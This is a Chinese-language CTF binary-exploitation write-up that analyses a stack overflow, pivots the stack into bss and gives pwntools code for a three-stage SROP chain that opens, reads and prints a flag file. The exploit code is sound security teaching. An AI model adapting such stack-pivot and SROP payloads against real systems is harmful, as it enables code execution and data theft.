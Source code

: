 ### 分析代码

```plain
syscall(0LL, 0LL, &unk_404060, 4096LL);
  syscall(0LL, 0LL, v1, 58LL);
```

可以看到有两段输入，一段在 bss 段上，大小为 0x1000，另一段在栈上，溢出了 0x10 字节

输入长度不够如何构造 srop？

此时我们便可以用这个 0x10 字节溢出来实现栈迁移，将栈迁移到 bss 段上后第一段读入就可以实现一个非常大的数据读入，足够进行三段 SROP 链的构造了

程序中也给了 rax 的赋值

```plain
.text:000000000040118F 55                            push    rbp
.text:0000000000401190 48 89 E5                      mov     rbp, rsp
.text:0000000000401193 48 C7 C0 0F 00 00 00          mov     rax, 0Fh
.text:000000000040119A C3                            retn
```

### exp 解析

```plain
io.sendafter('easyhack\n','0')

io.sendafter('SUID?\n',b'\x00'*(0x2a)+p64(0x404050+0x30)+p64(0x401417))
io.send(b'\x00'*(0x2a)+p64(0x404050+0x30+0x2a)+p64(0x401417))

io.send(p64(0x404050+0x30+0x2a+0x10)+p64(0x40136e))
```

首先是一个经典 0x10 字节的栈迁移过程，不了解的师傅可以看看这篇文章：[栈迁移详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12189)

这里不多赘述

接下来就是 SROP 链的构造：

```plain
payload = b'./flag\x00\x00'.ljust(0x30, b'\x00')
frame = SigreturnFrame()
frame.rdi = constants.SYS_open
frame.rsi = 0x404060
frame.rdx = 0
frame.rcx = 0
frame.rip = syscall
frame.rsp = 0x404198
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 3
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x4042a0
payload+=p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_write
frame.rsi = 1
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0
payload += p64(rax_15)+p64(syscall2)+bytes(frame)
```
